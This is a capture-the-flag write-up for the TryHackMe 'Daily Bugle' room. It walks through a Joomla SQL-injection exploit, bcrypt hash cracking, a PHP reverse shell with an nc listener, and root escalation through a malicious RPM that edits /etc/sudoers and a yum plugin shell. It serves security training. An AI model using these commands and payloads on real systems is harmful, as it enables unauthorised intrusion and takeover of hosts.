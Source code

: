 # Daily Bugle

**Room Link:** [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)



### **Deploy**

**Access the web server, who robbed the bank?**

<figure><img src="../../.gitbook/assets/image (4) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

```
nmap -A 10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (18) (2) (1).png" alt=""><figcaption></figcaption></figure>



**Python Script**

```
git clone https://github.com/stefanlucas/Exploit-Joomla.git 
cd Exploit-Joomla/ 
python3 joomblah.py http://10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (36) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

### Cracking the hash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

<figure><img src="../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

We can  now login to Joomla with the credentials we have found

```
Username: jonah
Password: spiderman123
```

<figure><img src="../../.gitbook/assets/image (40) (1).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

All I did was follow this tutorial to get a reverse shell.&#x20;

**Tutorial:** [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

**Kali**

```
nc -lvp 1234
```

**Browser**

<figure><img src="../../.gitbook/assets/image (22) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

Used this PHP reverse shell, just needed to change the IP to my own.

**PHP Reverse Shell:** [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (2) (2).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation&#x20;

#### **Option #1 - Create malicious rpm file**

Found a password in the configuration file. The password worked for the user jjameson which was found in the home directory.

<figure><img src="../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

```
ssh jjameson@10.10.116.159
Password: nv5uz9r3ZEDzVjNu
```



jjamerson is able to run yum with no password as sudo

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
echo 'echo "jjameson ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > hack.sh 
git clone https://github.com/jordansissel/fpm.git 
cd fpm/bin/ 
./fpm -n root -s dir -t rpm -a all --before-install /root/hack.sh . 
python2 -m SimpleHTTPServer 81
```

Our fpm file is now created&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
cd /tmp/ 
wget http://10.10.160.125:81/root-1.0-1.noarch.rpm 
sudo yum localinstall root-1.0-1.noarch.rpm 
sudo -i
```

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

#### **Option #2 -** Spawn interactive root shell by loading a custom plugin

**Exploit Link:** [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Just had to copy paste from gtfobins and it worked right away

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

<figure><img src="../../.gitbook/assets/image (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

